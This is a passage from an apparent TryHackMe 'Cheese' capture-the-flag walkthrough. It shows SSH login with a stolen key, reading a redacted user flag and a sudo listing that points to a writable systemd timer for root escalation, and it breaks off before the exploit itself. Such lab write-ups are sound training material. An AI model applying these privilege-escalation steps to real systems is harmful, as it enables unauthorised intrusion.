 ```console

m3ga@kali:~/tryhackme/Cheese$ ssh comte@thecheeseshop.com -i id_rsa_comte 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-174-generic x86_64)
...
comte@cheesectf:~$
```

The user flag can be found inside `comte`'s home directory
```console
comte@cheesectf:~$ cat user.txt 
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⣶⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡾⠋⠀⠉⠛⠻⢶⣦⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⠟⠁⣠⣴⣶⣶⣤⡀⠈⠉⠛⠿⢶⣤⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⡿⠃⠀⢰⣿⠁⠀⠀⢹⡷⠀⠀⠀⠀⠀⠈⠙⠻⠷⣶⣤⣀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠋⠀⠀⠀⠈⠻⠷⠶⠾⠟⠁⠀⠀⣀⣀⡀⠀⠀⠀⠀⠀⠉⠛⠻⢶⣦⣄⡀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠟⠁⠀⠀⢀⣀⣀⡀⠀⠀⠀⠀⠀⠀⣼⠟⠛⢿⡆⠀⠀⠀⠀⠀⣀⣤⣶⡿⠟⢿⡇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⡿⠋⠀⠀⣴⡿⠛⠛⠛⠛⣿⡄⠀⠀⠀⠀⠻⣶⣶⣾⠇⢀⣀⣤⣶⠿⠛⠉⠀⠀⠀⢸⡇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣾⠟⠀⠀⠀⠀⢿⣦⡀⠀⠀⠀⣹⡇⠀⠀⠀⠀⠀⣀⣤⣶⡾⠟⠋⠁⠀⠀⠀⠀⠀⣠⣴⠾⠇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡿⠁⠀⠀⠀⠀⠀⠀⠙⠻⠿⠶⠾⠟⠁⢀⣀⣤⡶⠿⠛⠉⠀⣠⣶⠿⠟⠿⣶⡄⠀⠀⣿⡇⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣶⠟⢁⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣴⠾⠟⠋⠁⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⣼⡇⠀⠀⠙⢷⣤⡀
⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠟⠁⠀⣾⡏⢻⣷⠀⠀⠀⢀⣠⣴⡶⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⣷⣤⣤⣴⡟⠀⠀⠀⠀⠀⢻⡇
⠀⠀⠀⠀⠀⠀⣠⣾⠟⠁⠀⠀⠀⠙⠛⢛⣋⣤⣶⠿⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠁⠀⠀⠀⠀⠀⠀⢸⡇
⠀⠀⠀⠀⣠⣾⠟⠁⠀⢀⣀⣤⣤⡶⠾⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣤⣤⣤⣤⣤⡀⠀⠀⠀⠀⠀⢸⡇
⠀⠀⣠⣾⣿⣥⣶⠾⠿⠛⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣶⠶⣶⣤⣀⠀⠀⠀⠀⠀⢠⡿⠋⠁⠀⠀⠀⠈⠉⢻⣆⠀⠀⠀⠀⢸⡇
⠀⢸⣿⠛⠉⠁⠀⢀⣠⣴⣶⣦⣀⠀⠀⠀⠀⠀⠀⠀⣠⡿⠋⠀⠀⠀⠉⠻⣷⡀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀⠀⠘⣿⠀⠀⠀⠀⢸⡇
⠀⢸⣿⠀⠀⠀⣴⡟⠋⠀⠀⠈⢻⣦⠀⠀⠀⠀⠀⢰⣿⠁⠀⠀⠀⠀⠀⠀⢸⣷⠀⠀⠀⢻⣧⠀⠀⠀⠀⠀⠀⠀⢀⣿⠀⠀⠀⠀⢸⡇
⠀⢸⡇⠀⠀⠀⢿⡆⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⠀⠀⠀⣸⡟⠀⠀⠀⠀⠙⢿⣦⣄⣀⣀⣠⣤⡾⠋⠀⠀⠀⠀⢸⡇
⠀⢸⡇⠀⠀⠀⠘⣿⣄⣀⣠⣴⡿⠁⠀⠀⠀⠀⠀⠀⢿⣆⠀⠀⠀⢀⣠⣾⠟⠁⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⠉⠉⠀⠀⠀⣀⣤⣴⠿⠃
⠀⠸⣷⡄⠀⠀⠀⠈⠉⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⠻⠿⠿⠛⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣴⡶⠟⠋⠉⠀⠀⠀
⠀⠀⠈⢿⣆⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⣶⣤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣴⡶⠿⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⢨⣿⠀⠀⠀⠀⠀⠀⣼⡟⠁⠀⠀⠀⠹⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣶⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣠⡾⠋⠀⠀⠀⠀⠀⠀⢻⣇⠀⠀⠀⠀⢀⣿⠀⠀⠀⠀⠀⠀⢀⣠⣤⣶⠿⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢠⣾⠋⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣤⣤⣤⣴⡿⠃⠀⠀⣀⣤⣶⠾⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⣀⣠⣴⡾⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⡶⠿⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⡇⠀⠀⠀⠀⣀⣤⣴⠾⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢻⣧⣤⣴⠾⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠘⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀


THM{[REDACTED]}
```

## Root Flag
### Systemd Timers
Taking a look at `comte`'s sudo privileges and `linpeas` indicating that `/etc/systemd/system/exploit.timer` is writable, it becomes clear what needs to be done.
```console
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```
